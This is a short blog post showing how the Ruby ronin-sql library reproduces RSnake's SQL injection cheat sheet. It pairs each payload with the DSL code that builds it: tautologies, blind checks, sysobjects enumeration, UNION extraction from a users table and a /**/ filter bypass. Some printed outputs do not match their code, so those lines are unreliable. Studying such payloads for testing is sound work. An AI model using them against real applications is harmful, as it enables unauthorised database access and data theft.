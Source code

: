 ```yaml
---
layout: post
title: RSnakes SQLi Cheat Sheet using ronin-sql 1.1.0
author: postmodern
tags:
 - ronin
 - sqli
 - rsnake
---
```


After the release of [ronin-sql] 1.0.0, I wondered if we could recreate
[RSnake's SQL Injection Cheat Sheet][1] using the new [Ronin::SQL]
Domain Specific Language (DSL). Let's see how far we can get.

Normal SQL Injection:

{% highlight sql %}
1 OR 1=1
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new
sqli.or { 1 == 1 }
puts sqli
# => 1 OR 1=1
{% endhighlight %}

Normal SQL Injection using encapsulated data:

{% highlight sql %}
1' OR '1'='1
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new(escape: :string)
sqli.or { string(1) == string(1) }
puts sqli
# 1' OR '1'='1
{% endhighlight %}

Blind SQL Injection:

{% highlight sql %}
1 AND 1=1
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new
sqli.or { 1 == 1 }
puts sqli
# 1 AND 1=1
{% endhighlight %}

Blind SQL Injection to attempt to locate `tablename` by brute-force
iteration through table name permutations:

{% highlight sql %}
1' AND 1=(SELECT COUNT(*) FROM tablenames); --
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new(escape: :string)
sqli.and { select(count).from(:tablenames) == 1 }
puts sqli
# 1 AND (SELECT COUNT(*) FROM tablenames)=1
{% endhighlight %}

Creating errors by calling non-existent tables:

{% highlight sql %}
1' AND non_existant_table = '1
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new(escape: :string)
sqli.and { non_existant_table == '1' }
puts sqli
# 1' AND non_existant_table='1
{% endhighlight %}

Dumping usernames:

{% highlight sql %}
' OR username IS NOT NULL OR username = '
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new(escape: :string)
sqli.or { username.is_not(null) }.or { username == '' }
puts sqli
# 1' OR username IS NOT NULL OR username='
{% endhighlight %}

Enumerating through database table names:

{% highlight sql %}
1 AND ASCII(LOWER(SUBSTRING((SELECT TOP 1 name FROM sysobjects WHERE xtype='U'), 1, 1))) > 116
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new
sqli.and {
  ascii(
    lower(
      substring(
        select(:name).top(1).from(sysobjects).where { xtype == 'U' }, 1, 1
      )
    )
  ) > 116
}
puts sqli
# 1 AND ASCII(LOWER(SUBSTRING((SELECT name TOP 1 FROM sysobjects WHERE xtype='U'),1,1)))>116
{% endhighlight %}

Finding user supplied tables using the `sysObjects` table in SQL Server:

{% highlight sql %}
1 UNION ALL SELECT 1,2,3,4,5,6,name FROM sysObjects WHERE xtype = 'U' --
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new
sqli.union_all {
  select(1,2,3,4,5,6,name).from(sysObjects).where { xtype == 'U' }
}
puts sqli.to_sql(:terminate => true)
# 1 UNION ALL (SELECT (1,2,3,4,5,6,name) FROM sysObjects WHERE xtype='U');--
{% endhighlight %}

Bypass filters by using `/**/` instead of spaces:

{% highlight sql %}
1/**/UNION/**/SELECT/**/(1,2,3,4,id)/**/FROM/**/users
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new
sqli.union { select(1,2,3,4,id).from(users) }
puts sqli.to_sql(:space => '/**/')
# 1/**/UNION/**/SELECT/**/(1,2,3,4,id)/**/FROM/**/users
{% endhighlight %}

Not too shabby!

[1]: http://ha.ckers.org/sqlinjection/

[ronin-sql]: https://github.com/ronin-rb/ronin-sql#readme
[Ronin::SQL]: /docs/ronin-sql/Ronin/SQL.html
